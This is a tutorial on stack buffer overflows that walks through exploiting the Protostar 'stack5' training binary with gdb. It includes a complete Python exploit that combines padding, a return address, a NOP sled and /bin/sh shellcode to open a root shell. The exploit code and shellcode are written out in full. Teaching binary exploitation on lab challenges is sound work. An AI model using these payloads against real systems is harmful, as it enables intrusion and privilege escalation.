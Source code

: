 ## What is a Buffer Overflow and How Hackers Exploit these Flaws part 3

![thumbnail](https://raw.githubusercontent.com/neoslab/tutorials/master/thumbnails/21301488d1528d66211d9f24a88ba783-1920x1080.jpg "Thumbnail")

In our [previous article](https://github.com/neoslab/tutorials/blob/master/articles/5afb15034ccc33d4750897090b47a57e.md) we have seen how to change variables or either execute functions which should not be done through a **stack buffer overflow** including few others things. But imagine the case where there is none of this! How we can successfully execute what we want?

Well, the solution is simple! We will use **Shellcodes**. In hacking, a Shellcode is a small piece of code used as the payload in the exploitation of a vulnerability. It is called "Shellcode" because it typically starts a command shell from which the attacker can control the compromised machine.

**Source:** [wikipedia.org](https://en.wikipedia.org/wiki/Shellcode)

###### HOW TO EXECUTE OUR SHELLCODE?

You remember by rewriting `saved rip`, we could redirect our execution flow anywhere in the memory. If we want to use a Shellcode, the principle is the same except we will redirect the flow to our Shellcode to be able to execute it. The main question is where to put our Shellcode? Well if you remember what we have seen previously, the Shellcode can be put on the stack or in an environment variable.

**Placing a Shellcode in the buffer**

```
[[shellcode][padding]][saved ebp][saved eip -> the address to our shellcode]
```

**Placing a Shellcode behind eip**

```
[buffer (padding)][saved ebp][saved eip -> the address of the nop][nop * large number][shellcode]
```

What is `nop`? Do you remember our [first article](https://github.com/neoslab/tutorials/blob/master/articles/12089bda5ec9cb38858eb2184ceaa179.md). If you already forgot, I kindly suggest you have a look at what we already have seen during our first approach. To cut short, "nop = No Operation", which concretely means to don't do anything and simply move to the next instruction.

How useful is this, you would say? This allows us to have the addresses that go right to the following instructions and finally to the Shellcode, so we no longer have to take the precise address of our Shellcode but just an address in our `nop`.

* * *

###### EXAMPLE OF EXPLOITATION

It's now the time to move on the concrete aspect of the exploitation and to do this we will use the challenge "stack5" from the [Exploit-Education](https://exploit.education/protostar/) website which contains several exercises regarding binary exploitation. Here is the code that we will use:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
```

**How and where to Get Started?**

In the above source code, we can see a buffer of 64-bytes is created and the function `gets()` is called. What we must do is overflow the buffer by rewriting the return address pointing to our Shellcode. Suppose we do not have the source code, we are going to disassemble `main` using `gdb`. This will allow us among other things to find the address of the buffer where our Shellcode will be placed.

```bash
cd /opt/protostar/bin
gdb -q stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
```

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-1.png "Image-1")

Now we are going to put a breakpoint into the `main()` function to stop the execution of the program and examine what is on the stack.

```bash
(gdb) b * 0x080483da
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
```

Through `r` and `i r ` for "info registers" we can get a complete overview and analyze the registers. So let's run it and check what we get.

**Output**

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-2.png "Image-2")

The `eax` value must contain the string that we have entered "ABCDEF" and therefore the beginning of the buffer is `0xbffffc70`.

```bash
(gdb) x/s 0xbffffc70
0xbffffc70:     "ABCDEF"
```

Since the stack `esp` register points to `0xbffffcbc` then we can calculate the length of our padding using the following command:

```bash
(gdb) p/d 0xbffffcbc - 0xbffffc70
$1 = 76
```

We can determinate that our filler length is equal to 76 and since we got it, we can overwrite the return address. In order to do it, open a new terminal and execute the following python command in order to get the complete string:

```bash
python -c "print 'A' * 76 + 'B' * 4"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

Copy the complete string in your clipboard and back the terminal where your instance of `gdb` is running and past the string after executing the `r` command as per the following:

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x080483da in main (argc=Cannot access memory at address 0x41414149
) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
```

Once you are done, simply execute the following command to check if the value of your stack `esp` register has been updated:

```bash
(gdb) x/s 0xbffffcbc
0xbffffcbc:      "BBBB"
```

As you can see the content of `0xbffffcbc` is now "BBBB", so we can already handle the return address. The return address should be "0xbffffcbc + 4" which is equal to `0xbffffcc0`. If you want to be sure that address is already present in the stack simply execute the following command in the terminal that running your `gdb` instance:

```bash
(gdb) x/60wx $eax
```

**Output**

![image-3](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-3.png "Image-3")

Now we are going to create an exploit to verify that we will be able to execute arbitrary code, for this we will use the `Interrupt 3` instruction in order to stop the execution of the program and create a breakpoint.

```bash
cat >> /tmp/exploit.py << EOL
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20 # NOPs
shellcode="\xCC"*4
print padding+ret+nops+shellcode
EOL

python /tmp/exploit.py > /tmp/file
cd /opt/protostar/bin/
./stack5 < /tmp/file
```

**Output**

![image-4](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-4.png "Image-4")

We see that it works, now we are going to try to execute a shell `/bin/sh` as root. We can generate the Shellcode using **msfvenom** or search for one that works in our situation on [Shell Storm](http://shell-storm.org/shellcode/) website. To make it easier for you, I already selected a Shellcode that you can use in this situation and which can be found [here](http://shell-storm.org/shellcode/files/shellcode-811.php). So considering all of this our final payload will be:

```
import struct

def m32(dir):
    return struct.pack("I",dir)

padding="A"*76
ret=m32(0xbffffcc0)
nops="\x90"*20
shellcode = ""
shellcode += "\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += "\xcd\x80\x31\xc0\x40\xcd\x80"

print padding+ret+nops+shellcode
```

The final step will be to save the above piece of code in a file that I will personally name "exploit.py" and execute it using the below command:

```bash
(python /tmp/exploit.py;cat) | ./stack5
```

**Output**

![image-5](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/21301488d1528d66211d9f24a88ba783-5.png "Image-5")

We can now execute commands as root on the system. As I said before, these challenges are an introduction, nowadays binaries have protection, such as NX for Linux or DEP for Windows, which makes some memory areas (usually the stack) not executable. However, understand theses principles is a good start if you want to involve deeper into the **Buffer Overflow**.

For more information about this tutorial and to see a live demonstration of this type of attack, I encourage you to watch the video below.

[![video-1](https://i3.ytimg.com/vi/w4wNgTnWqdQ/maxresdefault.jpg)](https://www.youtube.com/watch?v=w4wNgTnWqdQ)
